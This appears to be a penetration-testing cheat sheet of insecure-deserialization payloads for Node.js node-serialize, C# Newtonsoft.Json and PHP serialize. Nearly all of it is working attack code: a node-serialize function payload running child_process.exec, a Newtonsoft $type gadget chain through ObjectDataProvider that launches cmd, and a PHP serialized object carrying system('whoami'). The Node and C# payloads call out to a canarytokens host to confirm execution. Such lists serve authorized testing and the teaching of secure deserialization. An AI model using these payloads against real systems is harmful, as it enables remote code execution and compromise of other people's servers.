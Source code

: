 # Object Deserialization
## Node.JS - node-serialize
```sh
{"rce":"_$$ND_FUNC$$_function() {require('child_process').exec('ping XXXXXXXXX.canarytokens.com', (error, stdout, stderr) => { console.log(stdout); }); } ()"}

```
#####

## C# - Newtonsoft
```sh
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', 'ping -n 3 ping XXXXXXXXX.canarytokens.com']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
#####

## PHP - serialize
Payload Generator:
```sh
<?php

class Example2
{  
   private $hook = "system('whoami');";
}

print(urlencode(serialize(new Example2)) . "\n");
print((serialize(new Example2)) . "\n");

?>
```
Payload:
```sh
O:8:"Example2":1:{s:14:"Example2hook";s:17:"system('whoami');";} 
```
#####

